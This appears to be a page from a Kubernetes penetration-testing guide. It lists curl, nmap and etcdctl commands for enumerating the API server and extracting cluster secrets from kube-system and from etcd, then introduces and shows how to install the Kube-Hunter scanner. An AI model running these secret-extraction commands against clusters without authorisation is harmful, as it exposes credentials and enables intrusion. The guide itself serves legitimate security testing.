 ### Exploiting Kubernetes Components

Various Kubernetes components can be targeted for exploitation:

#### Attacking the Kubernetes API Server

```bash
# Enumerate API endpoints
curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api

# Test for unauthenticated access
curl -k https://kubernetes.default.svc/api/v1/namespaces

# Attempt to access commonly misconfigured endpoints
curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/kube-system/secrets
```

#### Attacking etcd

```bash
# Check for exposed etcd
nmap -p 2379 -sV --script etcd-dump-keys [target-ip]

# Query etcd directly if accessible
ETCDCTL_API=3 etcdctl --endpoints=http://[etcd-ip]:2379 get / --prefix --keys-only

# Extract secrets from etcd
ETCDCTL_API=3 etcdctl --endpoints=http://[etcd-ip]:2379 get /registry/secrets --prefix
```

## Kube-Hunter: Kubernetes Penetration Testing

Kube-Hunter, developed by Aqua Security, is a specialized tool for penetration testing Kubernetes clusters. It identifies security weaknesses in Kubernetes deployments by actively hunting for vulnerabilities across nodes, pods, and control plane components.

### Core Concepts

Kube-Hunter operates on several key principles:

1. **Hunting**: Active discovery of Kubernetes components and vulnerabilities
2. **Passive Scanning**: Non-intrusive identification of cluster misconfigurations
3. **Active Attacks**: Optional exploitation of discovered vulnerabilities
4. **Remote Assessment**: Testing from outside the cluster
5. **Internal Assessment**: More comprehensive testing from within a cluster

### Installation

Kube-Hunter can be run in multiple ways:

```bash
# Using pip
pip install kube-hunter

# Using Docker
docker pull aquasec/kube-hunter

# From source
git clone https://github.com/aquasecurity/kube-hunter.git
cd kube-hunter
pip install -r requirements.txt
```

